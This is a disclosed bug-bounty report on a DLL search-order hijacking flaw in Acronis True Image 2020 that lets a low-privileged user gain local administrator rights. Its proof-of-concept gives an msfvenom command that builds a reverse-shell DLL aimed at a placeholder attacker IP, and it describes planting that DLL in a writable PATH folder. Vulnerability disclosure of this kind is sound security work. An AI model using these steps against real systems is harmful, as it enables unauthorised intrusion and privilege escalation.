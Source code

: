 # TrueImage for Acronis True Image 2020 - Untrusted DLL Search-Ordering lead to Privilege Escalation as Administrative account

## Report Details
- **Report ID**: 959017
- **URL**: https://hackerone.com/reports/959017
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-08-14T18:18:16.871Z
- **Disclosed**: 2024-08-27T13:49:50.830Z

## Reporter
- **Username**: vanitas
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Vulnerability Explanation :
	An issue was discovered in Acronis Service Manager Service which intregated from Acronis Cyber Backup ver.15.0.24197. This service is suffered by untrusted search binary. The malicious users who are in “Authenticated Users” group can use malicious DLL file to execute arbitrary code and escalate privilege to impersonate as local administrator.

Vulnerable application version :
	 Acronis Cyber Backup ver.15.0.24197 (maybe lower are affected too).

PoC Operating System version :
	Microsoft Windows 10 Home - 64 bits with latest patched.

Vulnerability found :
1. Executable file : TrueImage.exe.
2. Arbitrary execution using tcmalloc.dll.

Lab Environment :
1. Install Python2.7 for windows, we can see C:\Python27 which is default home application of Python2.7 is added to SYSTEM PATH variable. Open from environment variable. [Ref Picture : 01.jpg, 02.jpg]

Vulnerability Finding :
1. See from Desktop icon : "Acronis True Image" running by execute file : "C:\Program Files (x86)\Acronis\TrueImageHome\TrueImageLauncher.exe". This one has spawned sub-process binary such as : TrueImage.exe
2. Open Process Monitor, to find out how it is doing. Add filter with following criteria : [Ref Picture : 03.jpg]
• Process Name is TrueImage.exe (Include)
• Result contains NOT FOUND (Include)
• Path contains Python27 (Include)
3. From Process Monitor, After we execute Acronis True Image which only administrative running only, we can see suspicious executeable file name as : "tcmalloc.dll" was called from TrueImage.exe and several DLL are called from the path is defined in SYSTEM PATH variable. [Ref Picture : 04.jpg]
4. When closely look for this process details, see that C:\Python27\tcmalloc.dll was loaded by "John" privilege who is local administrator with 32 bits process. [Ref Picture : 05.jpg, 06.jpg]
This is potential to do privilege escalation as Administrative privilege account via untrusted DLL search-ordering exploit

Proof-of-concept exploitation :
1. Use msfvenom tool on Kali-linux to generate malicious DLL file, then save as "tcmalloc.dll". It will generate shellcode to send reverse shell to attacker when this exe is loaded to target system as below command. [Ref Picture : 07.jpg]
Command : 
msfvenom -p windows/shell_reverse_tcp LHOST=[Attacker-IP] LPORT=[Attacker-port] -f dll > tcmalloc.dll
2. On attacker side (Kali-linux). Start reverse shell listener for receive reverse shell.
3. Transfer malicious DLL file to target server, place tcmalloc.dll at C:\Python27. Since this folder is writeable by any of users are in Authenticated Users group, then this low privileged user is allow to place this malicious DLL file on this. [Ref Picture : 08.jpg]
4. Wait for any of administrator account to open Acronis True Image to inject DLL into its main process running.
5. Get reverse shell as user :  John who is local administrator on this host, we can see this reverse shell is spawned by malicious DLL file. [Ref Picture : 09.jpg, 10.jpg, 11.jpg]

## Impact

Malicious users are able to gain privilege escalation permission as local administrator account.

## Attachments
- 01.jpg
- 02.jpg
- 03.jpg
- 04.jpg
- 05.jpg
- 06.jpg
- 07.jpg
- 09.jpg
- 08.jpg
- 10.jpg
- 11.jpg
